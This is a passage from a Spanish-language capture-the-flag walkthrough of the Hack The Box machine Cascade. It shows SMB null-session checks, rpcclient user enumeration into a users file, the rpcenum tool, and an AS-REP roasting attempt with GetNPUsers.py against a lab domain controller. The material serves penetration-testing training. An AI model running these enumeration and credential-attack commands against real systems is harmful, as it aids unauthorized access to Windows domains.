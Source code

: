 | 5985   | WinRM      | evil-winrm                               | credenciales              |
| 49154  | msrpc      | Puertos por defecto de windows           |                           |
| 49155  | msrpc      | Puertos por defecto de windows           |                           |
| 49157  | ncacn_http | Puertos por defecto de windows           |                           |
| 49158  | msrpc      | Puertos por defecto de windows           |                           |
| 49170  | msrpc      | Puertos por defecto de windows           |                           |


### Analyzando el SMB {-}

```bash
crackmapexec smb 10.10.10.182
smbclient -L 10.10.10.182 -N
smbmap -H 10.10.10.182 -u 'null'
```

Vemos que estamos frente de una maquina Windows 6.1 que se llama **CASC-DC1** en el dominio **cascade.local** con un certificado firmado.
Añadimos el dominio al `/etc/hosts`.
Aqui, no podemos ver los recursos compartidos a nivel de red con un null session.

### Buscando ususarios con rpcclient y rpcenum {-}

```bash
rpcclient -U "" 10.10.10.182 -N

rpcclient $> enumdomusers
rpcclient -U "" 10.10.10.182 -N -c "enumdomusers"
rpcclient -U "" 10.10.10.182 -N -c "enumdomusers" | grep -oP '\[.*?\]'
rpcclient -U "" 10.10.10.182 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v "0x"
rpcclient -U "" 10.10.10.182 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]'
rpcclient -U "" 10.10.10.182 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users
```

Tambien podemos aprovechar de la utilidad de S4vitar 

```bash
git clone https://github.com/s4vitar/rpcenum
cd rpcenum
./rpcenum -e All -i 10.10.10.182
```

Como tenemos un listado de usuarios, podemos explotar un Asproasting ataque.

### Asproasting Attack {-}

```bash
GetNPUsers.py cascade.local/ -no-pass -userfile users
```

Aqui no podemos ver nada.
